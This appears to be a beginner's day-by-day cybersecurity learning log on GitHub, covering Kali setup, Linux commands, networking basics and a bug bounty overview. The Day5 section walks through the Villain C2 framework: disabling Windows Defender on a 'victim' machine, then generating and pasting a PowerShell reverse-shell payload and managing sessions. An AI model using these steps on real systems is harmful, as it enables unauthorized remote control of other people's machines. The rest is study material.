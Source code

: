# Day1
welcome to my repository 
# Day2
I learned how to download Kali Linux for VirtualBox and use 7-Zip to extract the files. While extracting Kali Linux using 7-Zip, I faced some errors but was able to fix them successfully. I'm eager to keep learning new things.
# Day3
Learned about Linux commands such as:
→ ls (List files and directories)
→ cd (Change directory)
→ pwd (Print current working directory)
→ mkdir (Create a new directory)
→ chmod (Change file permissions), etc.
Also learned how to run and execute them in Kali Linux using VirtualBox.
I'm excited to learn more new things ahead!
# Day4
->NAT (Network Address Translation):
       NAT is a networking process used to modify IP address information in packet headers while they are in transit across        a router or firewall.
       -->It allows multiple devices on a private network to share a single public IP address.
       -->Adds a layer of security by hiding internal IP addresses from external networks.
->Difference between TCP (Transmission Control Protocol) and UDP (User Datagram Protocol):
       1.Connection – TCP is connection-oriented (uses a handshake), while UDP is connectionless and sends data without             establishing a session.
       2. Reliability – TCP ensures reliable data transfer with acknowledgments and retransmissions; UDP does not guarantee        delivery.
       3.Speed – TCP is slower due to error checking and connection management, while UDP is faster because it has minimal         overhead.
       4.Security Risks – TCP can be targeted by attacks like SYN flooding and session hijacking, whereas UDP is vulnerable         to spoofing and amplification attacks.
->IP Address (Internet Protocol Address):
       Each device connected to a network is assigned an IP address to identify it.
        Currently, we are receiving **Dynamic IP Addresses** (assigned automatically and may change).
->IPv4 (Internet Protocol version 4):
        Format: 32-bit (e.g., `192.168.1.1`)
        Supports about 4.3 billion unique addresses.
->MAC Address (Media Access Control Address)
        Each device has a unique MAC address assigned to its network interface card.
        This address rarely changes and is used for communication within a local network.
->Port Forwarding:
        Port forwarding is a networking technique that redirects traffic from an external IP and port to an internal device         on a private network.
         It is useful for remote access to services.
         However, it can be risky if misconfigured, as it may expose internal services to attackers.
# Day5
Creating Reverse shell for Windows Hacking using Villain FrameWork:
-->Villain is a C2 (Command & Control) framework for managing reverse shells and backdoors across multiple machines.
**1. Install Villain**

```bash
git clone https://github.com/t3l3machus/Villain.git
cd Villain
sudo apt update
sudo apt install python3 python3-pip
pip3 install -r requirements.txt
```

**2. Launch Villain**

```bash
cd Villain
sudo python3 Villain.py
```

**3. On Victim Windows Machine**

* Turn off **Windows Defender** → Real-time protection **OFF**.

**4. Generate & Execute Payload**

* In Villain:

  ```bash
  generate payload=windows/reverse_tcp/powershell lhost=<Your_IP> lport=4444
  ```
* Copy payload → Paste into **Windows PowerShell** → Press **Enter**.

**5. Manage Sessions**

* `sessions` → View active sessions.
* `shell <ID>` → Interact with a session.
# Day5

## 🐞 Bug Bounty Basics

Report bugs (especially security flaws) → Get paid and recognized.



###  Common Vulnerabilities

* **BAC**: Accessing things you shouldn't.
* **IDOR**: Changing IDs in URLs to see others’ data.
* **XSS**: Injecting scripts into web pages.
* **CSRF**: Forcing users to take unwanted actions.
* **SQLi**: Messing with database queries.
* **SSRF**: Making the server talk to internal systems.
* **Auth Bypass**: Getting in without real login.


###  Top Bug Bounty Platforms

* **HackerOne** – Big names like Uber, Twitter
* **Bugcrowd** – Lots of public/private programs
* **Intigriti** – EU-based, growing fast
* **YesWeHack** – Strong in Europe
* **Open Bug Bounty** – Free and open


###  Must-Have Tools

* **Burp Suite** – Web app testing
* **Nmap** – Network scanner
* **SQLmap** – Finds SQL injections
* **Dirsearch/Gobuster** – Hidden folders
* **Subfinder/Amass** – Find subdomains
* **Postman/Insomnia** – API testing


###  Zero-Click Attacks

Hack happens with **no clicks** — just receiving a message or file.

 Example:

* **Pegasus Spyware** – Full phone hack via iMessage
* **WhatsApp** – Spyware via missed call
* **Apple Mail** – Attack by just receiving an email


###  Famous Hacking Devices

* **WiFi Pineapple** – Fakes Wi-Fi, steals data
* **USB Rubber Ducky** – Looks like USB, types commands
* **Flipper Zero** – All-in-one wireless hacking tool
* **Bash Bunny** – USB that steals data + more
* **HackRF One** – Radio signal hacking tool


